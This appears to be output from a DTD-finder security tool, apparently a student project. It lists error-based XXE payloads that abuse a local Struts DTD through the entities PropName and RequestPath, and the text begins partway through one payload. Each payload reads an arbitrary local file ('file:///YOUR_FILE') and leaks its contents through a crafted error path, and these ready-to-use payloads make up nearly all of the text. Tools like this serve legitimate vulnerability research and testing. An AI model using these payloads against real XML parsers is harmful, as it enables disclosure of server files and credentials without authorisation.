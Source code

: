 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_2.dtd`

**Injectable entity:** `PropName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_2.dtd">

    <!ENTITY % PropName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_2.dtd`

**Injectable entity:** `RequestPath`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_2.dtd">

    <!ENTITY % RequestPath '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```
